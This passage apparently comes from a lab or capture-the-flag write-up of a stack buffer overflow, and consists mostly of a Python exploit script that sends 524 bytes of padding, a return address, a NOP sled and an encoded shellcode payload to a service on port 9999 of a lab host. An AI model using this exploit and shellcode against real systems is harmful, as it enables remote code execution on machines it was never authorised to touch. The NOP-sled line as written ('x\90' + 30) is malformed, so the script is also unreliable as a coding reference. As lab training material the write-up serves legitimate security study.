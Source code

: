```python
print "[+] Buffer sent!"

s.close()


```

If we run this we don't get a shell

<img src="https://i.imgur.com/ajvikzD.png"/>

Because we need to add a few NOPs (no operation) in our payload which can be done with `x90` ,NOP instructions simply just  slide the program execution to the next memory address

```python
#!/usr/bin/python                                                                        
import socket                                                                                  
host = "192.168.0.139"
port = 9999

buf =  b""                                                            
buf += b"\xba\x97\x93\x0e\x39\xda\xc9\xd9\x74\x24\xf4\x5f\x29"
buf += b"\xc9\xb1\x52\x31\x57\x12\x83\xef\xfc\x03\xc0\x9d\xec"
buf += b"\xcc\x12\x49\x72\x2e\xea\x8a\x13\xa6\x0f\xbb\x13\xdc"
buf += b"\x44\xec\xa3\x96\x08\x01\x4f\xfa\xb8\x92\x3d\xd3\xcf"
buf += b"\x13\x8b\x05\xfe\xa4\xa0\x76\x61\x27\xbb\xaa\x41\x16"
buf += b"\x74\xbf\x80\x5f\x69\x32\xd0\x08\xe5\xe1\xc4\x3d\xb3"
buf += b"\x39\x6f\x0d\x55\x3a\x8c\xc6\x54\x6b\x03\x5c\x0f\xab"
buf += b"\xa2\xb1\x3b\xe2\xbc\xd6\x06\xbc\x37\x2c\xfc\x3f\x91"
buf += b"\x7c\xfd\xec\xdc\xb0\x0c\xec\x19\x76\xef\x9b\x53\x84"
buf += b"\x92\x9b\xa0\xf6\x48\x29\x32\x50\x1a\x89\x9e\x60\xcf"
buf += b"\x4c\x55\x6e\xa4\x1b\x31\x73\x3b\xcf\x4a\x8f\xb0\xee"
buf += b"\x9c\x19\x82\xd4\x38\x41\x50\x74\x19\x2f\x37\x89\x79"
buf += b"\x90\xe8\x2f\xf2\x3d\xfc\x5d\x59\x2a\x31\x6c\x61\xaa"
buf += b"\x5d\xe7\x12\x98\xc2\x53\xbc\x90\x8b\x7d\x3b\xd6\xa1"
buf += b"\x3a\xd3\x29\x4a\x3b\xfa\xed\x1e\x6b\x94\xc4\x1e\xe0"
buf += b"\x64\xe8\xca\xa7\x34\x46\xa5\x07\xe4\x26\x15\xe0\xee"
buf += b"\xa8\x4a\x10\x11\x63\xe3\xbb\xe8\xe4\xcc\x94\xf2\x77"
buf += b"\xa4\xe6\xf2\x7f\x9b\x6e\x14\x15\xf3\x26\x8f\x82\x6a"
buf += b"\x63\x5b\x32\x72\xb9\x26\x74\xf8\x4e\xd7\x3b\x09\x3a"
buf += b"\xcb\xac\xf9\x71\xb1\x7b\x05\xac\xdd\xe0\x94\x2b\x1d"
buf += b"\x6e\x85\xe3\x4a\x27\x7b\xfa\x1e\xd5\x22\x54\x3c\x24"
buf += b"\xb2\x9f\x84\xf3\x07\x21\x05\x71\x33\x05\x15\x4f\xbc"
buf += b"\x01\x41\x1f\xeb\xdf\x3f\xd9\x45\xae\xe9\xb3\x3a\x78"
buf += b"\x7d\x45\x71\xbb\xfb\x4a\x5c\x4d\xe3\xfb\x09\x08\x1c"
buf += b"\x33\xde\x9c\x65\x29\x7e\x62\xbc\xe9\x9e\x81\x14\x04"
buf += b"\x37\x1c\xfd\xa5\x5a\x9f\x28\xe9\x62\x1c\xd8\x92\x90"
buf += b"\x3c\xa9\x97\xdd\xfa\x42\xea\x4e\x6f\x64\x59\x6e\xba"

buffer = "A" * 524 + "\xf3\x12\x17\x31" + "x\90" + 30 +  buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send(buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()
```
